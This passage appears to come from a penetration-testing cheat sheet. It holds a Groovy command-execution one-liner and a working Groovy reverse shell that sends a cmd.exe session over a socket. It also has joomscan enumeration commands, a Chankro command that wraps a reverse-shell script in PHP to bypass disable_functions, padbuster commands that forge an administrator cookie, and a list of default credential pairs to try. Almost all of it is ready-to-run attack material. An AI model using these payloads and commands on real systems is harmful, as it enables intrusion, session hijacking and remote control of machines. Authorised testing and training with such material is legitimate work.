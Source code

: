 ```
#Groovy RCE
def process = "cmd /c whoami".execute();println "${process.text}";
#Groovy RevShell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

# Joomscan
joomscan -u  http://10.11.1.111 
joomscan -u  http://10.11.1.111 --enumerate-components

# PHP bypass disable_functions and open_basedir
# Chankro
https://github.com/TarlogicSecurity/Chankro
python2 chankro.py --arch 64 --input rev.sh --output chan.php --path /var/www/html

# Cookies error padding:
# Get cookie structure
padbuster http://10.10.1.111/index.php xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka 8 -cookies "user=xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka" -error "Invalid padding"
# Get cookie for other user (impersonation)
padbuster http://10.10.1.111/index.php xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka 8 -cookies "user=xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka" -error "Invalid padding" -plaintext 'user=administratorme'
```


### Default/Weak login

Search documentation for default passwords and test them

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin <servicename>
root root
root admin
root password
root <servicename>
<username if you have> password
<username if you have> admin
<username if you have> username
username <servicename>
```
